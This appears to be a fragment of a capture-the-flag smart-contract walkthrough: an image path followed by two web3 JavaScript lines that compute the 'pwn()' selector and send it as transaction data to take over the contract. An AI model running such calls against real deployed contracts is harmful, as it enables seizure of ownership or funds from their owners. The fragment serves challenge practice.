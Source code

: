 1. `var sig = await web3.sha3("pwn()").slice(0,10)`
2. `await contract.sendTransaction({data: sig})`